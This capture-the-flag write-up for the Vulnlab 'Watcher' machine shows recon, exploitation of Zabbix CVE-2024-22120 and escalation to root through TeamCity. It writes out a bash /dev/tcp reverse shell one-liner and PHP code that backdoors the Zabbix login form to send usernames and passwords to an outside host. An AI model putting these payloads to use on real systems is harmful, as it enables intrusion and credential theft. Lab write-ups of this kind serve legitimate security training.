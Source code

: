 ```yaml
---
sticker: lucide//eye
tags:
  - Software/Zabbix
  - CVE/CVE-2024-22120
  - Technique/Backdoor-Login-Form
  - Software/Teamcity
---
```



![](https://images-ext-1.discordapp.net/external/t5J7RHf9Ce4qzovuWH58fQjf0tQy6jDpKgmYAzNHrwM/https/assets.vulnlab.com/watcher_slide.png?format=webp&quality=lossless)

##  Machine Summary

We first find a Zabbix instance which is a vulnerable version where we can gain RCE via `CVE-2024-22120`. After gaining a shell we can backdoor the application to gain the credentials of another user `Frank`. With that user we can login to an internal `TeamCity` instance, that runs as `root`. Where we can create a pipeline to gain a reverse shell as `root`. 

## Recon

```ad-summary
title: NMAP
collapse: open

```nmap
nmap -sC -sV -p- --min-rate 1000 10.10.92.19 -oA watcher  

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-25 20:02 CEST
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 25.00% done; ETC: 20:02 (0:00:12 remaining)
Nmap scan report for 10.10.92.19
Host is up (0.019s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f0:e4:e7:ae:27:22:14:09:0c:fe:1a:aa:85:a8:c3:a5 (ECDSA)
|_  256 fd:a3:b9:36:17:39:25:1d:40:6d:5a:07:97:b3:42:13 (ED25519)
80/tcp    open  http       Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://watcher.vl/
10050/tcp open  tcpwrapped
10051/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```ad-important
title: Domains
collapse: open

- **watcher.vl**
```

## Initial Access
We are first presented with a normal website. We then perform subdomain enumeration:
```
ffuf -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -u http://watcher.vl -H 'Host: FUZZ.watcher.vl' --fw 1720
```

This yields `zabbix.watcher.vl`

Guest login is enabled there. After login we can see a dashboard where it states the zabbix version as `Zabbix version 7.0.0alpha1`.
There is a [RCE vulnerability]([https://gridinsoft.com/blogs/zabbix-sqli-vulnerability/](https://gridinsoft.com/blogs/zabbix-sqli-vulnerability/ "https://gridinsoft.com/blogs/zabbix-sqli-vulnerability/")) for this version. A [POC is available on Github]([https://github.com/W01fh4cker/CVE-2024-22120-RCE](https://github.com/W01fh4cker/CVE-2024-22120-RCE "https://github.com/W01fh4cker/CVE-2024-22120-RCE")) 

To get the `hostid` we can navigate to Inventory -> Hosts . There is only one with a hostid of `10084` which can be found as a query parameter after clicking on the host.
The `sessionid` can be found in cookie, by base64 decoding it.

Then the script can be run by providing those two parameters:
```
python3 CVE-2024-22120-RCE-2.py --ip zabbix.watcher.vl --sid bbf2d4b5233188ccfe382b39129644f5 --hostid 10084
```

After gaining a shell, it's advisable to stabilize the shell using something like pwncat:

```
bash -c "/bin/bash -i >& /dev/tcp/REDACTED/6063 0>&1" &
```

```
pwncat-cs -lp 6063
```

## Privilege Escalation

After stabilizing the shell we can get the user flag.

There is an interesting service running at 8111 which seems to be a `Teamcity` instance:
To access it we add our ssh key to the users home `/var/lib/zabbix/.ssh` inside `authorized_keys`. We can't actually login using ssh, but we can still use that for a socks proxy:

```
ssh -D 1080 -N -i zabbix.key zabbix@watcher.vl
```

We seem to have access to the login page in `/usr/share/zabbix/index.php` .
We can backdoor that file to forward all logins to our host:

```
$name = $_POST['name'] ?? 'Unknown';
$password = $_POST['password'] ?? 'Unknown';

// Prepare the log entry
//$logEntry = "Name: " . $name . ", Password: " . $password . "\n";

// Write the log entry to the file /tmp/log.txt
// The FILE_APPEND flag ensures the entry is added at the end of the file
// The file will be created if it does not exist
//file_put_contents('/tmp/log.txt', $logEntry, FILE_APPEND);
file_get_contents('http://REDACTED/x?name=' . $_POST['name'] . '&pass=' . $password);
//echo "Data logged successfully2!";
```

Then we get a request to our server after a few minutes:
```
10.10.70.236 - - [25/Jul/2024 23:01:02] "GET /x?name=Frank&pass=REDACTED HTTP/1.1" 404 -
```

We now have creds:
- `Frank`:`REDACTED`

We can now use those creds to access Teamcity. We now just need to create a pipeline giving us a shell:
Create a new project:
![](https://cdn.discordapp.com/attachments/1265405837053001768/1266137532945535056/image.png?ex=66a40df7&is=66a2bc77&hm=1cb989a7963adfd9d6a3f136cb362586947f4a5a5451042d308dbee6d2f359df&)
![](https://cdn.discordapp.com/attachments/1265405837053001768/1266139177234206771/image.png?ex=66a40f7f&is=66a2bdff&hm=f00184410101df0f690ce2ef228729b31b89ac98f4f4bcf2a21c94c01b789ca1&)

On the page we now get redirected to there is a Button `Create Build Configuration`

![](https://cdn.discordapp.com/attachments/1265405837053001768/1266139607700078643/image.png?ex=66a40fe6&is=66a2be66&hm=1a363fc0529a9bf67c6b28988c23d9b365f9ec922e6ae2232f8f5a787c207bc3&)

Just enter a name and save
![](https://cdn.discordapp.com/attachments/1265405837053001768/1266135260979134556/image.png?ex=66a40bd9&is=66a2ba59&hm=9e021817a54d1880943697cdad67ecb472131572d871ccf9567091b91962cd52&)

Then skip the VCS integration
![](https://cdn.discordapp.com/attachments/1265405837053001768/1266136001760460840/image.png?ex=66a40c8a&is=66a2bb0a&hm=10163a3592ed110cdd880af2bde7d8299d4f0a5a9edd9d19ff4b947284dad42b&)

Then in the BuildConfiguration switch to BuildSteps in the navbar on the left:
![](https://cdn.discordapp.com/attachments/1265405837053001768/1266136280656511008/image.png?ex=66a40ccc&is=66a2bb4c&hm=d565b7f195b5431154d4cdd9b5553d43d59476132d01b786e56b21b1059aafe6&)

There you can add a build step:
![](https://cdn.discordapp.com/attachments/1265405837053001768/1266136442489278604/image.png?ex=66a40cf3&is=66a2bb73&hm=094001795e377c155e9411732a4a05414f6585148bcc97d75bcc49eb012af6f1&)

Select `Command Line` as type:
![](https://cdn.discordapp.com/attachments/1265405837053001768/1266136844135829584/image.png?ex=66a40d53&is=66a2bbd3&hm=e2aebc90ffdefbe81c818e522052c0c44476a3dedf40f4ebe40824a57afed105&)

Then we enter reverse shell command in the Custom Script box:
![](https://cdn.discordapp.com/attachments/1265405837053001768/1266137091113222377/image.png?ex=66a40d8e&is=66a2bc0e&hm=c7a4bbf3e94ccfb210cbe86b83b26d7d29f91c4446e82b8c6e28cd9f0b1d9f31&)

Then save and click run on the top:
![](https://cdn.discordapp.com/attachments/1265405837053001768/1266137326120337530/image.png?ex=66a40dc6&is=66a2bc46&hm=623dc8bd57c5515380520e2fbc43626c9b8a0ceb0904d55b6bae5e22b94dbe51&)

After a few seconds a revshell as root will get sent to our host.

We can then read the flag from the root directory:
```
(remote) root@watcher.vl:/root# cat root.txt 
VL{REDACTED}
```


---
#### Lessons learned
- When backdooring the login form, writing files didn't work, extracting via http is a simple alternative. Thanks to @Cr0w for pointing it out.
---
